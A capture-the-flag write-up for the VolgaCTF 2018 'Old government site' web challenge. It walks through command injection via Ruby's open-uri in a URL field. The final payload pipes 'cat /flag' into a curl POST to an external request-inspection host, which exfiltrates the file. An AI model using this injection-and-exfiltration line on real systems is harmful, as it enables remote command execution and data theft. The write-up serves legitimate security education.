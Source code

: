 # VolgaCTF Quals 2018 : Old government site

**Team:** NOPS
**Category:** Web
**Points:** 150
**Description:**  
It's an old government web-site. Please, don't touch it. It works properly.

## Write-up

After connecting to the website, you have access to some links, no forms. Nevertheless we saw that pages are fetched with an id: `http://old-government-site.quals.2018.volgactf.ru:8080/page?id=33`

We run a script to see if there were some hidden pages and found one with the id: `id=18`

It asks us to enter a website.
If you enter a correct website like http://google.com you have a string showing `validated` whereas is you only put google.com, it shows `error`.

When you enter a correct website, the server does a GET request on it.²

So we played a bit with this field and found out that `/etc` is a correct website. We then tried with the linux filesystem `/var` and some linux commands `/bin/ls` etc and finally, we tried `/flag`. It worked. Nice, maybe it's where the flag is, but can we access it ?

Up to now, we know that the script behind is executing the command we give or send a GET request on the url.

We also know that the framework used for the website is Sinatra. if you request an unknow web page, it gives you an error.
Sinatra is in ruby.

So we have to find a function in ruby that could open a file or a URL.

We found open-uri and the vulnerabilities related to it: [sakurity.com](https://sakurity.com/blog/2015/02/28/openuri.html)

Let's try a `| ls` : it's validated. We've got a command injection. Let's craft our command so it can read the /flag file and send it to a server: `|curl -d "$(cat /flag)" -X POST http://ptsv2.com/t/3awt7-1521988385/post` (we use ptsv2 website to inspect the content of the HTTP requests)

Bingo ! We've got out flag ! 
